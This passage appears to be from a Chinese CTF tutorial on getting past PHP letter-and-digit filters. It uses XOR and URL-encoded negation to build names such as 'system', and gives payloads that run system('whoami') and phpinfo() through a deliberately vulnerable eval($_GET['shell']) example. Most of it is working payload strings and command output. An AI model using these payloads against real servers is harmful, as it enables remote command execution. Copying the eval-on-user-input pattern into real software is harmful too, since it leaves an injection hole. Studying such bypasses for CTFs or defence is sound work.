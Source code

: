 ```php
PS D:\phpStudy\PHPTutorial\php\php-5.4.45> .\php.exe -r "var_dump('000000'^'CICDU]');"
string(6) "system"
PS D:\phpStudy\PHPTutorial\php\php-5.4.45>
```

利用:

```php
?shell=('000000'^'CICDU]')('whoami');
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo
```

## URL编码取反绕过

适用PHP版本：无限制

还是上面那个例题
当`PHP>=7`时，可以直接利用取反构造payload

```sh
PS D:\phpStudy\PHPTutorial\php\php-5.4.45> .\php.exe -r "var_dump(urlencode(~'phpinfo'));"
string(21) "%8F%97%8F%96%91%99%90"
PS D:\phpStudy\PHPTutorial\php\php-5.4.45>
```

```php
(~%8F%97%8F%96%91%99%90)();
#phpinfo();
```

例题:

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
    echo "hacker!!";
}else{
    eval($_GET['shell']);
}
?>
```

payload

```php
?shell=(~%8F%97%8F%96%91%99%90)();
```

有参数

```php
PS D:\phpStudy\PHPTutorial\php\php-5.4.45> .\php.exe -r "var_dump(urlencode(~'system'));"
string(18) "%8C%86%8C%8B%9A%92"
PS D:\phpStudy\PHPTutorial\php\php-5.4.45> .\php.exe -r "var_dump(urlencode(~'whoami'));"
string(18) "%88%97%90%9E%92%96"
PS D:\phpStudy\PHPTutorial\php\php-5.4.45>
```

payload

```php
(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
#system('whoami');
```

